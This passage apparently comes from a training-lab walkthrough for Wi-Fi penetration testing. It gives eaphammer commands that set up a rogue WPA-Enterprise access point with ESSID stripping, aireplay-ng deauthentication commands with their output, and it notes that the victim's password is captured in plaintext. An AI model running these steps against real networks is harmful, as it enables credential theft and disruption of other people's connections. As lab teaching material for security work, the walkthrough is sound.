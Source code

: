 Once the certificates have been created, students can proceed with the attack. Using `eaphammer`, students launch a rogue access point. Additionally, students need to implement ESSID stripping by way of the tab `\t` character.

Code: shell

```shell
sudo /opt/eaphammer/eaphammer -i wlan1 --auth wpa-eap --essid HTB-Corp --creds --negotiate balanced  --essid-stripping '\t'
```

```
wifi@HTB-Corp:~$ sudo /opt/eaphammer/eaphammer -i wlan1 --auth wpa-eap --essid HTB-Corp --creds --negotiate balanced  --essid-stripping '\t'

<SNIP>

[hostapd] AP starting...

Configuration file: /opt/eaphammer/tmp/hostapd-2025-03-06-20-14-11-kE9R0eVavka3AC00ztJ1LVKIOxVQQsFe.conf
rfkill: Cannot open RFKILL control device
wlan1: interface state UNINITIALIZED->COUNTRY_UPDATE
Using interface wlan1 with hwaddr 00:11:22:33:44:00 and ssid "HTB-Corp\t"
random: Only 16/20 bytes of strong random data available
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state COUNTRY_UPDATE->ENABLED
wlan1: AP-ENABLED 

Press enter to quit...
```

Students need to open a new terminal to perform deauthentication. `Note that the MAC address of the client may be different than the example shown below.`

Code: shell

```shell
sudo aireplay-ng --deauth 5 -a 54:8C:A0:E8:DF:B1 -c <CLIENT_MAC> wlan0mon
```

```
wifi@HTB-Corp:~$ sudo aireplay-ng --deauth 5 -a 54:8C:A0:E8:DF:B1 -c CA:B9:B8:80:BB:B2 wlan0mon

20:25:23  Waiting for beacon frame (BSSID: 54:8C:A0:E8:DF:B1) on channel 1
20:25:24  Sending 64 directed DeAuth (code 7). STMAC: [CA:B9:B8:80:BB:B2] [ 0| 0 ACKs]
20:25:24  Sending 64 directed DeAuth (code 7). STMAC: [CA:B9:B8:80:BB:B2] [ 0| 0 ACKs]
20:25:25  Sending 64 directed DeAuth (code 7). STMAC: [CA:B9:B8:80:BB:B2] [ 0| 0 ACKs]
20:25:25  Sending 64 directed DeAuth (code 7). STMAC: [CA:B9:B8:80:BB:B2] [ 0| 0 ACKs]
20:25:26  Sending 64 directed DeAuth (code 7). STMAC: [CA:B9:B8:80:BB:B2] [ 0| 0 ACKs]
```

When the victim attempts to reconnect, they unknowingly connect to the student's rogue AP. Upon checking the output from `eaphammer`, students will find the victim's password in plaintext.
